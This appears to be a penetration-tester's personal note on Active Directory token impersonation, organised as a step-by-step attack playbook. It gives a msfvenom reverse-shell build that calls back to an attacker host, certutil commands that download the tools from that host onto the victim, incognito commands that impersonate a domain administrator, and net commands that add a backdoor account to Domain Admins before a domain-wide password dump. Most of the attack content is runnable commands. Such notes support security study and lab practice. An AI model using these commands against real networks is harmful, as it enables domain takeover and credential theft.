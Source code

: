 -- -
A user may have access to delegate tokens to be able to impersonate another user or system in AD. We can try to list out available delegate tokens for one or more users and see if it allows us to move laterally or vertically using a delegate token
##### Definition
Tokens are temporary keys that allow you to access a system/network resource w/o having to provide credentials each time you access something. Like a cookie for computers in AD. 
#### Types:
- Delegate - created for logging into a machine/RDP. **Target**
- Impersonate - "non-interactive" such as attaching a network drive or a domain logon script. 
##### Steps
1. Get shell on machine
2. List Tokens
3. Impersonate another user (domain admin)
4. Add new user to new group (domain admins)
5. Compromise DC
### "manual" exploit
If you don't have `incognito.exe`, then you can find a precompiled version [here](https://github.com/FSecureLABS/incognito/blob/394545ffb844afcc18e798737cbd070ff3a4eb29/incognito.exe) or to compile from source, the repo is [here](https://github.com/milkdevil/incognito2?tab=readme-ov-file).
#### Prepare rev shell
You will get an impersonation elevated shell using this reverse shell
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<attack ip> LPORT=9001 -a x64 --platform Windows -f exe -o shell.exe
```
#### File transfer
File transfer over the executables onto the victim Windows host
```powershell
certutil -urlcache http://<attack ip>/incognito.exe incognito.exe
certutil -urlcache http://<attack ip>/shell.exe shell.exe
```
#### Impersonation attack
Make sure to have a netcat listener listening on `9001` or whatever LPORT you set on the rev shell.
```powershell
# list available dleegate tokens
incognito.exe list_tokens -u

# create impersonation reverse shell
incognito.exe execute -c "<domain>/<user>" .\shell.exe
incognito.exe execute -c "MARVEL/administrator" .\shell.exe
```
Now go to the below section "Post-Impersonate" for creating yourself a user in Domain Admins group or other group or other exploit. 
#### resource
- Vector outlined here: [Juggernaut exploit steps](https://juggernaut-sec.com/lateral-movement-token-impersonation/#Impersonating_the_Domain_Admin_with_incognitoexe)
- [Code your own](https://www.insecure.in/blog/token-impersonation-without-metasploit)
### Metasploit Impersonate
#### Get Shell
[[metasploit]]
![[metasploit#^66f29a]]
#### Impersonate User
[[metasploit]]
![[metasploit#^c51a79]]

### Post-Impersonate
#### Add new user to domain admins
obviously, you can add the user to whatever group the user has
```powershell
# Create new user and add to the current domain
net user /add <new username> <new password> /domain
nnet user /add hawkeye Password1@ /domain

# Add new user to desired group, in this case domain admins
net group "<domain group>" <user> /ADD /DOMAIN
net group "Domain Admins" hawkeye /ADD /DOMAIN
```
#### Compromise
From here, you have another account to play with, so loop back to other attacks:
[[Dark Arts/Active Directory/Post Breach/Attacks/Kerberoasting|Kerberoasting]]
[[Dark Arts/Mitigations/Active Directory/Pass Attacks|Pass Attacks]]
[[Dark Arts/Active Directory/Post Breach/Attacks/Token Impersonation]]

If you add the new user to domain admins, you can try to get all a password dump of the entire domain using [[Dark Arts/Active Directory/Post Breach/Tools/Attacks/secretsdump|secretsdump]] or DCSync or whatever you want. 